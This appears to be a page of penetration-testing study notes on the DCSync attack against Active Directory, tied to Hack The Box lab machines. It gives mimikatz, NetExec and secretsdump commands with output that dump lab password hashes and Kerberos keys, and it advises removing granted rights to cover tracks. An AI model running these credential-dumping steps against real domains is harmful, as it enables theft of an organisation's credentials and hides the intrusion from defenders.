


# DCSync

## Concept


A great article about the DCSync attack.


<div align="left">

<figure><figcaption></figcaption></figure>

</div>

DCSync is a technique for stealing the Active Directory password database (`ntds.dit`) by using the built-in **Directory Replication Service Remote** protocol, which is used by Domain Controllers (DCs) to replicate domain data. This allows an attacker to **mimic a DC and retrieve users' NTLM password hashes**. To perform this attack, we must have control over an account that has the rights to perform domain replication, aka **DCSync rights** (Figure 1):

1. `Replicating Directory Changes`
2. `Replicating Directory Changes All`
3. `Replication-Get-Changes-In-Filtered-Set` (sometimes)

> _Domain/Enterprise Admins and default Domain Administrators have these rights by default._

<figure><figcaption><p>Firure 1: DCSync rights (image taken from the article linked below).</p></figcaption></figure>

## Tools


If we have `WriteDacl`rights over an account, we can assign DCSync rights to it, execute the DCSync attack, and then remove them to attempt to cover our tracks. An example of this can be seen in the [privilege escalation part of the Forest box](../../../boxes/easy/forest.md#privilege-escalation). In the examples below, we assume that the user `hacker`has DCSync rights.


### Windows

The DCSync attack can be performed with [`mimikatz`](https://github.com/ParrotSec/mimikatz), but we must target a specific user and it must be ran in the context of the user who has DCSync privileges. The latter can be achieved with [Runas](https://github.com/antonioCoco/RunasCs):

```sh
# start a powershell session in the context of hacker
>runas /netonly /user:HTB\hacker powershell
Enter the password for HTB\hacker:
Attempting to start powershell as user "HTB\hacker" ...
```

Now we can perform the attack from the spawned PowerShell:

```powershell
> .\mimikatz.exe
 
mimikatz # privilege::debug
Privilege '20' OK
 
mimikatz # lsadump::dcsync /domain:HTB.LOCAL /user:HTB\administrator
[DC] 'HTB.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.HTB.LOCAL' will be the DC server
[DC] 'HTB\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
 
Object RDN           : Administrator
 
** SAM ACCOUNT **
 
SAM Username         : administrator
User Principal Name  : administrator@htb.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500
 
Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf
 
Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d
 
<SNIP>
```

### Linux

We can use [NetExec](https://github.com/Pennyw0rth/NetExec) to dump the whole `ntds.dit` database or the hash of a specified user:


NXC uses [secretsdump's methods](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-ntds.dit) to dump `ntds.dit`.


```bash
# dumping the administrator hash
$ nxc smb 10.10.10.161 -u hacker -p h@ck3r! --ntds --user administrator
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\hacker:h@ck3r!
SMB         10.10.10.161    445    FOREST           [-] Account not found in the BloodHound database.
SMB         10.10.10.161    445    FOREST           [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         10.10.10.161    445    FOREST           [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.10.161    445    FOREST           htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
SMB         10.10.10.161    445    FOREST           [+] Dumped 1 NTDS hashes to /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-03-22_110253.ntds of which 1 were added to the database
SMB         10.10.10.161    445    FOREST           [*] To extract only enabled accounts from the output file, run the following command:
SMB         10.10.10.161    445    FOREST           [*] cat /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-03-22_110253.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.10.10.161    445    FOREST           [*] grep -iv disabled /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-03-22_110253.ntds | cut -d ':' -f1
```

Impacket's [`secretsdump.py`](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) can be also used directly.&#x20;

```bash
$ secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32<REDACTED>a6:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
[*] Cleaning up...
```

## Practice

* [Forest (Easy)](../../../boxes/easy/forest.md)
* [Sauna (Easy)](../../../boxes/easy/sauna.md)
